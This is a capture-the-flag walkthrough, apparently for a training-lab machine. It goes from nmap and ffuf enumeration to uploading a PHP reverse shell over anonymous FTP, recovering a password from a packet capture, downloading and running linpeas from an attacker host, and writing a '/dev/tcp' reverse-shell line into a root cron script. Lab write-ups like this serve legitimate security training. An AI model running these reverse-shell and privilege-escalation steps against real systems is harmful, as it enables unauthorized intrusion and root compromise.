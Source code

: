 ## Target IP: `10.10.213.54`

---

### Nmap Scan

```bash
sudo nmap -sC -sV -T4 -O 10.10.213.54 -oN results.txt
```

**Open Ports:**

| Port | Service | Version |
| --- | --- | --- |
| 21 | FTP | vsftpd 3.0.3 |
| 22 | SSH | OpenSSH 7.2p2 |
| 80 | HTTP | Apache 2.4.18 |

---

### Web Enumeration

Visited HTTP server → Page contains message:

```
No spice here!

Please excuse us as we develop our site. We want to make it the most stylish and convenient way to buy peppers. Plus, we need a web developer. BTW if you're a web developer, contact us. Otherwise, don't you worry. We'll be online shortly!

— Dev Team
```

- Page source shows nothing interesting.

---

### Directory Bruteforce (Using `ffuf`)

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -ic -c -r -o startup.ffuf -u http://10.10.213.54/FUZZ
```

**Found:**

- `/files`
- Inside `/files`, found `ftp/` directory

---

### FTP Access

- Logged in anonymously:

```bash
ftp 10.10.213.54
# Username: anonymous
```

- `/ftp` directory matched what was seen in `/files/ftp`

---

### Upload Reverse Shell

- Used PHP reverse shell from:

```
/usr/share/webshells/php/php-reverse-shell.php
```

- Modified:
    - `LHOST` → Attacker IP
    - `LPORT` → 8080
- Uploaded to FTP server
- Started listener:

```bash
nc -lvnp 8080
```

- Accessed reverse shell via web
- Shell connected

---

### Shell Upgrade (TTY Fix)

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo
fg
[press Enter twice]
export TERM=xterm
```

**Explanation:**

- `pty.spawn("/bin/bash")`: Spawns a pseudo-terminal for a more interactive shell
- `CTRL+Z`: Backgrounds the current shell
- `stty raw -echo`: Fixes input so it behaves like a normal terminal
- `fg`: Brings the background shell back to the foreground
- `export TERM=xterm`: Ensures correct terminal type for applications like `nano`, `less`, etc.

---

### First Flag

```bash
cd /
cat recipe.txt
# → First flag found
```

---

### Privilege Escalation – PCAP Analysis

**Found:**

- `/root/incidents/suspicious.pcapng`

**Downloaded via Python web server:**

On victim:

```bash
cd /root/incidents
python3 -m http.server 7575
```

On local machine:

```bash
wget http://10.10.213.54:7575/suspicious.pcapng
```

---

### Wireshark Analysis

Opened `.pcapng` file in Wireshark.

- Searched for readable data by:
    - Scrolling through packets
    - Looking at bottom-right panel
    - Right-clicking and selecting **Follow TCP Stream** to reconstruct session data

**Goal:** Look for protocols known to send plaintext:

- HTTP
- FTP
- SMTP
- TELNET
- SMB
- DNS
- SSH (for context only, encrypted)

**Found in stream:**

```
sudo attempt with password: [REDACTED]
```

---

### Lateral Movement

```bash
su lennie
# Password: [REDACTED]
```

- Switch to user `lennie` successful

---

### LinPEAS Privilege Escalation Check

On local machine:

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
python3 -m http.server 80
```

On victim:

```bash
wget http://<attacker-ip>/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

---

### Finding Root via Cron Job

- LinPEAS (or writeup) revealed a suspicious file:

```
/etc/print.sh
```

- Not a standard system file
- Assumed to be a cron job run as root

**Payload added to `print.sh`:**

```bash
bash -i >& /dev/tcp/<attacker-ip>/8765 0>&1
```

- Set up listener:

```bash
nc -lvnp 8765
```

- Waited a minute, connection came in as root

**Explanation for Future Reference:**

The `print.sh` script was being executed automatically by a root-owned cron job. Since you modified the script, and the cron job runs **as root**, your reverse shell executed as root, giving you a root shell.

---

### Final Result

```bash
whoami
# → root
```

Root access achieved.
